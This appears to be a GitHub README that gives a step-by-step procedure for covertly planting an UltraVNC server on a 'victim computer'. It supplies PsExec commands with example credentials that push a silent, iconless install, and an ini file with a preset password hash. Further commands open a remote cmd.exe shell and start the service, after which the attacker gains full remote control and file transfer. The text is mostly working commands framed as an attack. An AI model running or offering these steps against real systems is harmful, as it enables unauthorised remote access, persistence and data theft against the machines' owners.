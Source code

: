 # VNC (UltraVNC) Remote Desktop Connectin Server/Client

UltraVNC is an open-source remote-administration/remote-desktop-software utility. The client supports Microsoft Windows and Linux but the server only supports Windows. It uses the VNC protocol to control/access another computer remotely over a network connection.

![UltraVNC](assets/uvnc.jpg "Open source UltraVNC remote desktop client/server")

## Install VNC Server to Victim Computer

You can remotely view, control or transfer files the victim computer using the UltraVNC tool. For this, follow the steps below.

### Step 1: Download UltraVNC setup

Copy current version of ultravnc from the website to your computer as **"c:\\uvncsetup.exe"**.

### Step 2: Start installation 

To start silent installation on victim computer run **"uvncsetup.exe"** as remotely using **PsExec.exe** below. The command copy the specified executable (uvncsetup.exe) to the remote system for execution:

`psexec \\\victim -u admin -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice,stopservice" /DIR="%programfiles%\uvnc"`

The inno setup parameters above allow the installation to complete silently. The installation files will be saved in the **"%program files%\uvnc"** directory on victim computer.

### Step 3: Define new password 

Create the **ultravnc.ini** file with the password defined in the **"%programfiles%\uvnc"** of the victim computer. 
UltraVNC password is "**admin0**" defined in **ultravnc.ini**. The ini file content is below:

> [ultravnc] \
> passwd=56B6ACA18D1BA76008 \
> passwd2=56B6ACA18D1BA76008 \

Copy the file to **"%programfiles%\uvnc"** folder on victim computer.

### Step 4: Restart the service

Start the service for the password to take effect. To restart the service open an interactive remote shell to victim computer below:

`psexec \\victim -u admin -p admin0 -h -i cmd.exe`

And run below command over remote shell:

`net start uvnc_service`

### Step 5: Check the installation

Check UltraVNC listen port with netstat 

`netstat -ano | find "5900"`
`tasklist /fi "pid eq <pid>"`

Run UltraVNC viewer and connect to victim computer. You can control it with mouse/keyboard or download/upload files via UltraVNC's  file manager.

![UltraVNC Viewer](assets/uvnc_viewer.png "UltraVNC Viewer")